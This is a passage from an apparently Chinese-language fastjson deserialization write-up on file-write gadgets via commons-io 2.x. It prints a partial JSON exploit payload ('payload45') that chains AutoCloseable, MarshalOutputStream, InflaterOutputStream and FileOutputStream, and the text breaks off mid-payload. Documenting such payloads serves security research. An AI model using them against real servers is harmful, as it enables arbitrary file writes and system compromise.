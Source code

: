 [![](assets/1706254407-a09946ead48f4413b92a85af5d5716ec.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115924790.png)

[![](assets/1706254407-c333cafd2a22f2a6b9dd32f54468d388.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115937822.png)

## 五、文件写入

## 5.1 commons-io 2.x (1.2.37<=version<=1.2.68)

### 5.1.1 最初公开的 payload（只能在 centos 下利用）

`payload45`：

```plain
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"C:/Users/whoami/Desktop/testtesttest.txt",
                "append":false
            },
            "infl":{
                "input":"SGVsbG8sIFcwMWZoNGNrZXIh"
```